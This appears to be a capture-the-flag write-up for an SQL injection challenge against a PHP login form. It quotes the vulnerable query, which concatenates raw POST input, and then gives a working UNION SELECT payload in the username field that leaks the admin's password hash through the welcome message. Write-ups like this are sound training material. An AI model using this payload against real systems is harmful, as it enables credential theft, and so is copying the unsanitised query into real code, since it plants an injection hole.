 # [SQL Injection Level 3](http://s1063.vdi.mipt.ru:8000/challenges#SQL%20Injection%20Level%203)
### [Login form](http://chall1.ctf.pwne.xyz:5555/level3/)

# Solution
1. Analyze the code
```php
$query = "SELECT * FROM users WHERE username='{$_POST['username']}' AND password='{$_POST['password']}'";

if (mysqli_num_rows($result) == 1)
{
	$row = $result->fetch_assoc();
	$username = $row['username'];
	$greeting = "Welcome, {$username}";
	$success_page = sprintf($success_page, $greeting);
	echo $success_page;
}
```
2. Let's do the same thing as in the first task.
3. We get `Your flag is flag{admin_password_here}`, so we need to retrieve admin's password.
4. We can see that after login in greeting message there is our username.
5. Let's change username with password.
login: `' union select id, password as username, username as login from users where username='admin';#`
We get: `Welcome, 0314fe52027a16cbdbc6af5c396cb658`, so

**Answer**: `flag{0314fe52027a16cbdbc6af5c396cb658}`
